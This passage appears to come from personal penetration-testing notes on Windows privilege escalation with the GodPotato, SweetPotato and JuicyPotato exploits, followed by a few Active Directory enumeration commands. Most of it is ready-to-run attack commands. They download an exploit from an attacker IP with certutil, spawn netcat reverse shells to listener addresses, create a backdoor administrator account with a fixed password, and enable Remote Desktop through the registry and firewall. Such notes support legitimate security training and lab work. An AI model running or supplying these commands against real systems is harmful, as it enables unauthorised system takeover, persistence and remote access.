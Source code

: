 [https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

**GodPotato**

```jsx
certutil -urlcache -split -f http://192.168.45.247/GodPotato/GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c C:/Windows/Temp/shell.exe"

.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.247 443"
net user /add [username] [password]
net localgroup administrators [username] /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

```jsx
net user /add kali SuperPass123!
net localgroup administrators kali /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

**SweetPotato**

Download: https://github.com/carr0t2/SweetPotato/releases/tag/v1.0.0

```jsx
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```

[https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

**JuicyPotato (x86)**

Download: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

Get CLSID: [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```jsx
Juicy.Potato.x86.exe -c {CLSID} -t * -l 443 -p "C:\Temp\nc.exe" -a "192.168.45.194 443 -e cmd" 
```

[juicy-potato/CLSID at master · ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Video: [https://www.youtube.com/watch?v=k9p6wZO7RyY](https://www.youtube.com/watch?v=k9p6wZO7RyY)

# Active Directory

[Domain Enumeration + Exploitation | burmat / nathan burchfield](https://burmat.gitbook.io/security/hacking/domain-exploitation)

```jsx
net users
net users /domain
net groups /domain
net localgroup administrators
```

